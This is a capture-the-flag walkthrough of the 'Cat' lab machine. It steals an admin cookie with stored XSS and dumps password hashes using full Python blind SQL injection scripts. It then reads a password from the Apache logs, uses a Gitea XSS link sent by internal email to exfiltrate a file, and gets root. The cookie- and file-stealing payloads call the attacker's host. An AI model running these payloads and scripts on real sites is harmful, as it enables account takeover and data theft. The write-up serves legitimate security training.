



We start our exercise with the reconnaissance phase

```bash
┌──(kali㉿kali)-[~/labs-hacks/cat]
└─$ ping -c 1 10.10.11.53   
PING 10.10.11.53 (10.10.11.53) 56(84) bytes of data.
64 bytes from 10.10.11.53: icmp_seq=1 ttl=63 time=104 ms

--- 10.10.11.53 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 104.193/104.193/104.193/0.000 ms

┌──(kali㉿kali)-[~/labs-hacks/cat]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.53 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hacks/cat]
└─$ echo $ports
22,80

┌──(kali㉿kali)-[~/labs-hack/cat]
└─$ nmap -p$ports 10.10.11.53 -sCV -v -oN cat_scan

<SNIP>

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC/7/gBYFf93Ljst5b58XeNKd53hjhC57SgmM9qFvMACECVK0r/Z11ho0Z2xy6i9R5dX2G/HAlIfcu6i2QD9lILOnBmSaHZ22HCjjQKzSbbrnlcIcaEZiE011qtkVmtCd2e5zeVUltA9WCD69pco7BM29OU7FlnMN0iRlF8u962CaRnD4jni/zuiG5C2fcrTHWBxc/RIRELrfJpS3AjJCgEptaa7fsH/XfmOHEkNwOL0ZK0/tdbutmcwWf9dDjV6opyg4IK73UNIJSSak0UXHcCpv0GduF3fep3hmjEwkBgTg/EeZO1IekGssI7yCr0VxvJVz/Gav+snOZ/A1inA5EMqYHGK07B41+0rZo+EZZNbuxlNw/YLQAGuC5tOHt896wZ9tnFeqp3CpFdm2rPGUtFW0jogdda1pRmRy5CNQTPDd6kdtdrZYKqHIWfURmzqva7byzQ1YPjhI22cQ49M79A0yf4yOCPrGlNNzeNJkeZM/LU6p7rNJKxE9CuBAEoyh0=
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEmL+UFD1eC5+aMAOZGipV3cuvXzPFlhqtKj7yVlVwXFN92zXioVTMYVBaivGHf3xmPFInqiVmvsOy3w4TsRja4=
|   256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEOCpb672fivSz3OLXzut3bkFzO4l6xH57aWuSu4RikE
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-git: 
|   10.10.11.53:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Cat v1 
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Best Cat Competition
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 

We see a .git folder. If we access the page, we can see cats to vote for one of them.


We can also register.


We can intercept this file upload using Burp Suite and attempt to exploit the application by uploading PHP files, but in this case, that doesn't work. 
At this point we can use [githack tool](https://github.com/lijiejie/GitHack) to gather more information from the `.git` directory discovered, just need to clone the repository. 

```bash 
┌──(kali㉿kali)-[~/labs-hack/cat/GitHack]
└─$ python3 GitHack.py http://cat.htb/.git/                                                                              
[+] Download and parse index file ...
[+] accept_cat.php
[+] admin.php
[+] config.php
[+] contest.php
[+] css/styles.css
[+] delete_cat.php
[+] img/cat1.jpg
[+] img/cat2.png
[+] img/cat3.webp
[+] img_winners/cat1.jpg
[+] img_winners/cat2.png
[+] img_winners/cat3.webp
[+] index.php
[+] join.php
[+] logout.php
[+] view_cat.php
[+] vote.php
[+] winners.php
[+] winners/cat_report_20240831_173129.php
[OK] accept_cat.php
[OK] admin.php
[OK] contest.php
[OK] config.php
[OK] css/styles.css
[OK] delete_cat.php
[OK] img/cat3.webp
[OK] img/cat1.jpg
[OK] logout.php
[OK] join.php
[OK] index.php
[OK] view_cat.php
[OK] img_winners/cat1.jpg
[OK] vote.php
[OK] img_winners/cat3.webp
[OK] img/cat2.png
[OK] winners.php
[OK] winners/cat_report_20240831_173129.php
[OK] img_winners/cat2.png
```


Upon reviewing the code, we can see that it does not apply any sanitization to prevent attacks such as XXS, so we can use the following trick to capture one of the admin's cookies: 

`<script>fetch("http://10.10.14.48/?cookie_value="+document.cookie);</script>`


Puting this into the field name on registry page, and then subbmiting a cat image we will be able to get the admin's cookie: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/cat]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [06/Jul/2025 05:55:57] "GET /?cookie_value=PHPSESSID=6s1850ol1jmlinkmqgilav56en HTTP/1.1" 200 -
``` 

Once we get this cookie, we need to change the cookie value on our browser and then we will get access to the site with admin features. 


------ 

Reviewing the code, in `accept_cat.php` we see a potential SQL injection due lack sanitization on code, we can attempt to exploit this with `Burp Suite` using the cookie captured previously. 



Where: 

`catName=test'||1/(substr((select username from users limit 0,1),1,1)='a')||''$catId=1`

- "limit 0,1" with this we will go through the element returned by the query in only one line
- ",1,1" we will go throug character by character. 

Using the following script we will be able to find the users: 

```bash
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
import requests
import string
import signal
import sys
import time

def def_handler(sig, frame):
    print(colored(f"[!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2: 
    print(colored(f"\n[!] Uso: python3 {sys.argv[0]} <cookie-value>\n", 'red'))
    sys.exit(1)

main_url = "http://cat.htb/accept_cat.php"
characters = string.ascii_lowercase
cookie_value = sys.argv[1]

def makeRequest():
    
    cookies = {
            'PHPSESSID': cookie_value
    }


    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    usernames = ""

    p2 = log.progress("Usuarios: ")

    for i in range(0, 5):
        for j in range(1, 10): 
            for character in characters: 
                post_data = {
                    'catName': f"test'||1/(substr((select username from users limit {i},1),{j},1)='{character}')||'",
                    'catId': '1'
                }
                p1.status(post_data['catName'])

                r = requests.post(main_url, data=post_data, cookies=cookies)

                if r.status_code == 200: 
                    usernames += character
                    p2.status(usernames)
                    break

        usernames += ","

if __name__ == '__main__': 
    makeRequest()
```

```bash 
┌──(kali㉿kali)-[~/labs-hack/cat]
└─$ ./script_sqli.py p96rrh7lcrimovtudp7o60nu25
[*] SQLI: test'||1/(substr((select username from users limit 4,1),9,1)='z')||'
[◥] Usuarios: : axel,rosa,robert,fabian,jerryson
```

-------

Modifying the script we can get the users hash: 

```bash 
#!/usr/bin/env python3

from pwn import *
from termcolor import colored
import requests
import string
import signal
import sys
import time

def def_handler(sig, frame):
    print(colored(f"[!] Saliendo...\n", 'red'))
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2: 
    print(colored(f"\n[!] Uso: python3 {sys.argv[0]} <cookie-value>\n", 'red'))
    sys.exit(1)

main_url = "http://cat.htb/accept_cat.php"
characters = "abcdef" + string.digits
cookie_value = sys.argv[1]

def makeRequest():
    
    cookies = {
            'PHPSESSID': cookie_value
    }


    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de fuerza bruta")

    usuarios = ["axel","rosa","robert","fabian","jerryson"]

    for usuario in usuarios:
       
        password = "" 
        p2 = log.progress(f"Contraseña [{usuario}]: ")

        for j in range(1, 35): 
            for character in characters: 
                post_data = {
                    'catName': f"test'||1/(substr((select password from users where username='{usuario}'),{j},1)='{character}')||'",
                    'catId': '1'
                }
                p1.status(post_data['catName'])

                r = requests.post(main_url, data=post_data, cookies=cookies)

                if r.status_code == 200: 
                    password += character
                    p2.status(password)
                    break

        password += ","

if __name__ == '__main__': 
    makeRequest()
```

```bash 
┌──(kali㉿kali)-[~/labs-hack/cat]
└─$ ./script.py l6kid3t8hinf77pv3004ijf0aa 
[q] SQLI: test'||1/(substr((select password from users where username='jerryson'),34,1)='9')||'
[...../..] Contraseña [axel]: : d1bbba3670feb9435c9841e46e60ee2f
[ ] Contraseña [rosa]: : ac369922d560f17d6eeb8b2c7dec498c
[┐] Contraseña [robert]: : 42846631708f69c00ec0c0a8aa4a92ad
[◐] Contraseña [fabian]: : 39e153e825c4a3d314a0dc7f7475ddbe
[b] Contraseña [jerryson]: : 781593e060f8d065cd7281c5ec5b4b86
```

We can crack this hashes with CrackStation: 




Now we will be able to connect via ssh: 

```bash 
┌──(kali㉿kali)-[~]
└─$ ssh rosa@cat.htb             

Last login: Mon Jul  7 16:26:55 2025 from 10.10.16.90
rosa@cat:~$
```

----

Rosa is part of `adm` grop: 

```bash 
rosa@cat:~$ id
uid=1001(rosa) gid=1001(rosa) groups=1001(rosa),4(adm)
```

This means we can read log files on the system: 

```bash 
rosa@cat:~$ find / -group adm 2>/dev/null
/var/log/audit
/var/log/apache2
/var/log/apache2/access.log
```

In `access.log` we will find Axel's password, due information subbmited to the web go through `GET` method. 

```bash 
127.0.0.1 - - [08/Jul/2025:03:34:35 +0000] "GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1" 302 329 "http://cat.htb/join.php" "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0"
```

By connecting via ssh: 

```bash 
┌──(kali㉿kali)-[~]
└─$ ssh axel@cat.htb             
axel@cat.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-204-generic x86_64)

You have mail.
Last login: Mon Jul  7 16:36:56 2025 from 10.10.16.90
axel@cat:~$ ls
user.txt
0a13a310069315773338cfcf6c1b6897
```

Reading mails from "/var/mail/axel" we will find that there's a service running at "http://localhost:3000/administrator/Employee-management/"

We can do some port forwarding to get acces to this service. 

```bash 
ssh axel@cat.htb -L 3000:127.0.0.1:3000
```

This is a gitea repository with a XSS [vulnerability-CVE-2024-6886](https://www.exploit-db.com/exploits/52077).

by logging with Axel's credentials we can see the XSS: 



Now we can access to files like `index.php`

<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php").then(response => response.text()).then(data => fetch("http://10.10.11.64/?data="+btoa(data)));'>XSS test</a>

We need to initialize the repo on our system, send the link via email to jobert (echo -e "Subject: Importante\n\nMira esto: <Alex repo link>" | sendmail jobert@localhost)and wait to recieve the data: 

```bash 
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.53 - - [08/Jul/2025 03:22:14] "GET /?data=PD9waHAKJHZhbGlkX3VzZXJuYW1lID0gJ2FkbWluJzsKJHZhbGlkX3Bhc3N3b3JkID0gJ0lLdzc1ZVIwTVI3Q01JeGhIMCc7CgppZiAoIWlzc2V0KCRfU0VSVkVSWydQSFBfQVVUSF9VU0VSJ10pIHx8ICFpc3NldCgkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSkgfHwgCiAgICAkX1NFUlZFUlsnUEhQX0FVVEhfVVNFUiddICE9ICR2YWxpZF91c2VybmFtZSB8fCAkX1NFUlZFUlsnUEhQX0FVVEhfUFcnXSAhPSAkdmFsaWRfcGFzc3dvcmQpIHsKICAgIAogICAgaGVhZGVyKCdXV1ctQXV0aGVudGljYXRlOiBCYXNpYyByZWFsbT0iRW1wbG95ZWUgTWFuYWdlbWVudCInKTsKICAgIGhlYWRlcignSFRUUC8xLjAgNDAxIFVuYXV0aG9yaXplZCcpOwogICAgZXhpdDsKfQoKaGVhZGVyKCdMb2NhdGlvbjogZGFzaGJvYXJkLnBocCcpOwpleGl0Owo/PgoK HTTP/1.1" 200 -
```

By reading this with `echo "<BASE64 string>" | base64 -d` we will get a password, now we can do: 

```bash 
axel@cat:~$ su root
Password: 
root@cat:/home/axel# cat /root/root.txt 
b9d2a38f4bbf0197c99ff82003ff6bc7
root@cat:/home/axel#
```


